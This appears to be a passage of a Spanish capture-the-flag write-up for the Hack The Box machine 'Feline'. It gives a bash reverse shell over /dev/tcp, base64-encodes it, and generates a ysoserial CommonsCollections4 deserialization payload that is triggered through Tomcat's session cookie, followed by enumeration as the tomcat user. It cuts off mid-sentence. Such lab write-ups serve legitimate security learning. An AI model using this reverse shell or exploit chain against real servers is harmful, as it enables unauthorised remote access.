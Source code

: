 Para generar nuestro payload me he basado en esta web: 
* [https://book.hacktricks.xyz/pentesting-web/deserialization#exploit](https://book.hacktricks.xyz/pentesting-web/deserialization#exploit)

Para nuestra rce, el payload que vamos a generar es una reverse shell en bash:
* ```bash -i >& /dev/tcp/<IP>/<Puerto> 0>&```

Como se indica en hacktricks, vamos a encodear el payload en base64:
* ```echo “bash -i >& /dev/tcp/<IP>/<Puerto> 0>&1” | base64```

![feline-payload-base64](/assets/imagenes/2021-02-20-feline-HTB/feline-payload-base64.png)

El comando final para generar el payload sería:
* ```
  java -jar ysoserial-master-4df2ee2bb5-1.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy8xMjM0IDA+JjEK}|{base64,-d}|-{bash,-i}">payload.session
  ```

Una vez hemos generado nuestro archivo payload.session lo subimos al servidor y a través de la cookie de sesion lo leemos.
Esto se da porque tomcat maneja las sesiones a traves de ficheros .session, pero al llamarlos a traves de la cookie de sesión no requiere que le pongamos la extensión ya que la añade de manera automática.

![feline-exploit-rce](/assets/imagenes/2021-02-20-feline-HTB/feline-exploit-rce.png)

con nuestro listener ya levantado vemos que recibimos la conexion.

![feline-shell-tomcat](/assets/imagenes/2021-02-20-feline-HTB/feline-shell-tomcat.png)

Como podemos ver somos usuario tomcat.

![feline-id-tomcat](/assets/imagenes/2021-02-20-feline-HTB/feline-id-tomcat.png)

### Enumeración ususario tomcat

ya somos usuario tomcat.
vamos a ver que tenemos en su home.

![feline-tomcat-home](/assets/imagenes/2021-02-20-feline-HTB/feline-tomcat-home.png)

Vemos que en la carpeta home del usuario tomcat tenemos la flag de user.

![feline-flag-user](/assets/imagenes/2021-02-20-feline-HTB/feline-flag-user.png)

En la carpeta del usuario no podemos escribir debido a que el propietario es root y no el propio usuario tomcat.En tmp cada minuto aproximadamente se borra el contenido, por lo que lo que subamos a esa carpeta durará poco tiempo en la máquina.

Por esto vamos a subir el script de enumeracion a la carpeta /opt/tomcat/logs

![feline-upload-linpeas](/assets/imagenes/2021-02-20-feline-HTB/feline-upload-linpeas.png)


Del output del script de enumeración, podemos deducir de primeras que la maquina en un principio cuenta con el servicio docker, ya que tenemos una interfaz llamada *docker0*, que es la que se activa por defecto con el servicio docker.

![feline-net-interfaces](/assets/imagenes/2021-02-20-feline-HTB/feline-net-interfaces.png)

La máquina cuenta también con dos puertos abiertos que a mi por lo menos me llamaron mucho la atención los cuales son 4505 y 4506, ya que son puertos
  ```